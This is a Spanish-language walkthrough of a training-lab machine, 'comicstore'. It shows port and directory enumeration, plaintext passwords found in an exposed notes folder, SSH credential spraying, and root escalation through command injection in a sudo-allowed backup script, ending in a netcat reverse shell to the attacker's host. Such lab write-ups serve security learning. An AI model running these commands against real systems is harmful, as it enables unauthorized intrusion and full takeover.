


# Resolución maquina comicstore

**Autor:** PepeMaquina  
**Fecha:** 11 de noviembre de 2025  
**Dificultad:** Easy  
**Sistema Operativo:** Linux  
**Tags:** Wordpress, command injection.

---
## Imagen de la Máquina

*Imagen: ComicStore.JPG*
## Reconocimiento Inicial

### Escaneo de Puertos
Comenzamos con un escaneo completo de nmap para identificar servicios expuestos:
~~~ bash
sudo nmap -p- --open -sS -vvv --min-rate 5000 -n -Pn 172.20.17.175 -oG networked
~~~
Luego queda realizar un escaneo detallado de puertos abiertos:
~~~ bash
sudo nmap -sCV -p22,80,3306 172.20.17.175 -oN targeted
~~~
### Enumeración de Servicios
~~~ 
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 f1:d3:3d:0e:44:58:c2:6e:7c:32:e2:9f:aa:d4:32:40 (ECDSA)
|_  256 10:6f:37:a1:79:c5:15:08:9c:23:44:ea:24:10:84:27 (ED25519)
80/tcp   open  http    Apache httpd 2.4.57 ((Debian))
|_http-title: Comic Store
| http-robots.txt: 1 disallowed entry 
|_/wp-admin/
|_http-generator: WordPress 6.5.2
|_http-server-header: Apache/2.4.57 (Debian)
3306/tcp open  mysql   MariaDB 10.3.23 or earlier (unauthorized)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
~~~
En esta ocasión, se pudo observar un anormal que no deberia de estar expuesto (mysql).
Pero desde ya adelanto que no es de mucha utilidad, pero nunca es buena opción tenerla expuesta.
### Enumeración de la página web
Al realizar enumeración manual, se puede ver que la pagina se trata de wordpress, de igual manera se puede ver que existe un dominio y un usuario potencialmente valido.

Esto se añade al "/etc/hosts" para poder realizar enumeracion de subdominios y subdirectorios de forma mas facil.
~~~bash
cat /etc/hosts
127.0.0.1 localhost
<SNIP>
172.20.17.175 comicstore.hc
~~~
Al inspeccionar la pagina web, no se pudo encontrar nada posiblemente vulnerable, asi que antes de usar el escaneo automatizado con "wpscan", primero se realizara enumeración de subdirectorios.
Normalmente realizaria enumeración con feroxbuster, pero como es CMS prediseñado, se prefiere  usar enumeracion de subdirectorios de primer nivel, esto con dirsearch.
~~~bash
dirsearch -u http://comicstore.hv/                       
/usr/lib/python3/dist-packages/dirsearch/dirsearch.py:23: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
  from pkg_resources import DistributionNotFound, VersionConflict

  _|. _ _  _  _  _ _|_    v0.4.3                                                                                                                            
 (_||| _) (/_(_|| (_| )                                                                                                                                     
                                                                                                                                                            
Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/kali/hackviser/Comicstore/content/reports/http_comicstore.hv/__25-11-11_23-30-35.txt

Target: http://comicstore.hv/

[23:30:36] Starting:                                                                                                                                        
[23:30:58] 403 -  278B  - /.ht_wsr.txt                                      
[23:30:58] 403 -  278B  - /.htaccess.bak1                                   
[23:30:58] 403 -  278B  - /.htaccess.orig                                   
[23:30:58] 403 -  278B  - /.htaccess.sample
[23:30:58] 403 -  278B  - /.htaccess.save
[23:30:58] 403 -  278B  - /.htaccess_extra                                  
[23:30:58] 403 -  278B  - /.htaccess_orig
[23:30:58] 403 -  278B  - /.htaccess_sc
[23:30:58] 403 -  278B  - /.htaccessBAK
[23:30:58] 403 -  278B  - /.htaccessOLD
[23:30:58] 403 -  278B  - /.htaccessOLD2
[23:30:58] 403 -  278B  - /.htm                                             
[23:30:58] 403 -  278B  - /.html                                            
[23:30:59] 403 -  278B  - /.htpasswd_test                                   
[23:30:59] 403 -  278B  - /.htpasswds
[23:30:59] 403 -  278B  - /.httr-oauth                                      
[23:31:11] 403 -  278B  - /.php                                             
[23:31:39] 200 -  525B  - /_notes/                                          
[23:31:39] 301 -  315B  - /_notes  ->  http://comicstore.hv/_notes/
[23:31:51] 302 -    0B  - /admin  ->  http://comicstore.hv/wp-admin/        
[23:31:54] 302 -    0B  - /admin/  ->  http://comicstore.hv/wp-admin/       
[23:32:41] 200 -   23KB - /atom                                             
[23:33:13] 302 -    0B  - /dashboard  ->  http://comicstore.hv/wp-admin/    
[23:33:13] 302 -    0B  - /dashboard/  ->  http://comicstore.hv/wp-admin/   
[23:33:34] 302 -    0B  - /favicon.ico  ->  http://comicstore.hv/wp-includes/images/w-logo-blue-white-bg.png
[23:33:35] 200 -    7KB - /feed                                             
[23:33:59] 301 -  319B  - /javascript  ->  http://comicstore.hv/javascript/ 
[23:33:59] 404 -  275B  - /javascript/editors/fckeditor
[23:33:59] 404 -  275B  - /javascript/tiny_mce                              
[23:34:06] 200 -    7KB - /license.txt                                      
[23:34:10] 302 -    0B  - /login  ->  http://comicstore.hv/wp-login.php     
[23:34:10] 302 -    0B  - /login.php  ->  http://comicstore.hv/wp-login.php
[23:34:10] 302 -    0B  - /login/  ->  http://comicstore.hv/wp-login.php    
[23:34:58] 200 -    3KB - /readme.html                                      
[23:35:01] 200 -   67B  - /robots.txt                                       
[23:35:02] 200 -    2KB - /rss                                              
[23:35:05] 403 -  278B  - /server-status/                                   
[23:35:05] 403 -  278B  - /server-status
[23:35:42] 301 -  317B  - /wp-admin  ->  http://comicstore.hv/wp-admin/     
[23:35:42] 400 -    1B  - /wp-admin/admin-ajax.php                          
[23:35:42] 200 -    0B  - /wp-config.php                                    
[23:35:43] 302 -    0B  - /wp-admin/  ->  http://comicstore.hv/wp-login.php?redirect_to=http%3A%2F%2Fcomicstore.hv%2Fwp-admin%2F&reauth=1
[23:35:43] 200 -  497B  - /wp-admin/install.php                             
[23:35:43] 409 -    3KB - /wp-admin/setup-config.php                        
[23:35:43] 301 -  319B  - /wp-content  ->  http://comicstore.hv/wp-content/ 
[23:35:43] 200 -    0B  - /wp-content/                                      
[23:35:44] 403 -  278B  - /wp-content/upgrade/                              
[23:35:44] 403 -  278B  - /wp-content/uploads/                              
[23:35:44] 403 -  278B  - /wp-includes/                                     
[23:35:44] 301 -  320B  - /wp-includes  ->  http://comicstore.hv/wp-includes/
[23:35:44] 200 -    0B  - /wp-cron.php
[23:35:44] 200 -    0B  - /wp-includes/rss-functions.php
[23:35:44] 200 -  304B  - /wp-json/wp/v2/users/                             
[23:35:44] 200 -    2KB - /wp-login.php                                     
[23:35:44] 302 -    0B  - /wp-signup.php  ->  http://comicstore.hv/wp-login.php?action=register
[23:35:46] 405 -   42B  - /xmlrpc.php                                       
[23:35:46] 200 -  177KB - /wp-json/  
~~~
De todo el resultado obtenido, se ve una ruta que es tentadora y anormal (***_notes***), asi que se entra por ese directorio para ver su contenido.

Se ve un par de notas, en teoria se deberia de revisar todas, pero de la que mas me llama la atencion es "securepassword.txt" asi que intento ver su contenido.

Se puede ver un par de contraseñas, pero una en especial menciona "ssh account", asi que intentare conectarme por ssh con el usuario que obtuve.
~~~bash
 sudo netexec ssh 172.20.17.175 -u users -p pass --continue-on-success     
SSH         172.20.2.45     22     172.20.2.45      [*] SSH-2.0-OpenSSH_9.2p1 Debian-2+deb12u2
SSH         172.20.2.45     22     172.20.2.45      [-] johnny:trustno11still07
SSH         172.20.2.45     22     172.20.2.45      [+] johnny:bl4z3 (Pwn3d!) Linux - Shell access!
~~~
BINGO!
Una de ellas dio positivo, asi que ahora se puede obtener acceso por ssh mediante el usaurio johnny.
~~~bash
ssh johnny@172.20.2.45                                             
The authenticity of host '172.20.2.45 (172.20.2.45)' can't be established.
ED25519 key fingerprint is SHA256:XUdI31RGtG8inWKt+WeBf6FOHNVHrCANnBe35cCyy4k.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '172.20.2.45' (ED25519) to the list of known hosts.
johnny@172.20.2.45's password: 
Linux comicstore 6.1.0-18-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.76-1 (2024-02-01) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
johnny@comicstore:~$
~~~

---
## Escalada de Privilegios
Para escalar privilegios se realizo una enumeración manual, viendo los permisos sudo.
~~~bash
johnny@comicstore:~/Documents/myc0ll3ct1on$ sudo -l
Matching Defaults entries for johnny on comicstore:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User johnny may run the following commands on comicstore:
    (root) NOPASSWD: /opt/.securebak/backup_mp3.sh
~~~
Se puede ver que se tiene acceso a un script, asi que se procede a ver su contenido.
~~~bash
johnny@comicstore:~/Documents/myc0ll3ct1on$ cat /opt/.securebak/backup_mp3.sh
#!/bin/bash

sudo find / -name "*.mp3" | sudo tee -a /run/media/johnny/BACKUP/backedup.txt

# archive file to keep track of files
input="/run/media/johnny/BACKUP/backedup.txt"

while getopts c: flag; do
  case "${flag}" in
    c) command=${OPTARG};;
  esac
done

backup_files="/home/johnny/Music/song*.mp3"

# backup location
dest="/run/media/johnny/BACKUP"

# archive filename.
hostname=$(hostname -s)
archive_file="$hostname-bak.tar.gz"

# print starting message
echo "Backing up $backup_files to $dest/$archive_file" && echo

# backing up the files
tar czf $dest/$archive_file $backup_files

# print ending message
echo && echo "Backup finished"

cmd=$($command) && echo $cmd
~~~

### Command injection
A simple vista, se puede ver una vulnerabilidad clara, un posible command injection ingresando el parametro -c en el archivo de ejecucion con permisos Sudo.
Asi que se puede enviar una reverse shell para obtener acceso como root.
Primero abro un escucha en mi maquina atacante.
~~~bash
sudo nc -nlvp 4433             
[sudo] password for kali: 
listening on [any] 4433 
~~~
Ahora solo se envia una reverse como comando.
~~~bash
johnny@comicstore:/tmp$ sudo /opt/.securebak/backup_mp3.sh -c 'busybox nc 10.8.13.128 4433 -e bash'
tee: /run/media/johnny/BACKUP/backedup.txt: No such file or directory
Backing up /home/johnny/Music/song*.mp3 to /run/media/johnny/BACKUP/comicstore-bak.tar.gz

tar: Removing leading `/' from member names
tar: /home/johnny/Music/song*.mp3: Cannot stat: No such file or directory
tar (child): /run/media/johnny/BACKUP/comicstore-bak.tar.gz: Cannot open: No such file or directory
tar (child): Error is not recoverable: exiting now
tar: Child returned status 2
tar: Error is not recoverable: exiting now
~~~
Si todo funciona bien, se deberia de enviar una reverse shell sin problemas como el usuario root, asi que viendo el escucha efectivamente funciono.
~~~bash
connect to [10.8.13.128] from (UNKNOWN) [172.20.2.45] 42588
id
uid=0(root) gid=0(root) groups=0(root)
~~~
Con ello ya se tiene acceso como root y hacer lo que pide el laboratorio.